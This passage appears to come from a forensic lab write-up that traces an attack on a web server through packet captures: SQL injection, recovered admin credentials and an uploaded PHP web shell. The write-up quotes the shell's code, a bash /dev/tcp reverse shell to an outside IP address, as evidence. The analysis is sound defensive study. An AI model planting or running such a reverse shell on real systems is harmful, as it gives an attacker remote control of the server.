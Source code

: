 Checking which credentials was used for this by following the stream:

![](/assets/img/Pasted image 20240725124538.png)


-> Answer: `admin:admin123!`


### Q9: We need to determine if the attacker gained further access or control on our web server. What's the name of the malicious script uploaded by the attacker?

There's a single packet for this one:

![](/assets/img/Pasted image 20240724221404.png)

	- Let's apply the filter by right-clicking + Apply as filter

Digging into this packet:

![](/assets/img/Pasted image 20240724221645.png)

	- It seems to be the packet related to file upload 'NVri2vhp.php' which contains this code:

```c
<?php 
exec("/bin/ bash -c 'bash-i >& /dev/tcp"111.224.250.131"/443 0>&1'");
?>
```

	- This is a reverse shell script so when executed on the webserver, it connects back to the attacker's machine on its port 443 via TCP (HTTPS basically).


Execution of the uploaded file:

![](/assets/img/Pasted image 20240725125521.png)


- This shows that the webserver has a file upload vulnerability. Consult the OWASP for patching.

-> Answer: `NVri2vhp.php`


# Conclusion:

```c
1) Identifying the attack vector:
	- SQL Injection on the webserver''s external facing website on the script 'search.php'
2) Assessing the scope of any potential data breach, and 
	- All data on the webserver''s database is compromised including all of its databases and tables contained. From the user''s perspective, all PIIs are compromised.
3) Determining if the attacker gained further access to BookWorld''s internal systems:
	- The attacker not only gained access on the database but also managed to get the administrative credentials from it leading to the file upload vulnerability in the website leading to reverse shell on the web server itself.
```
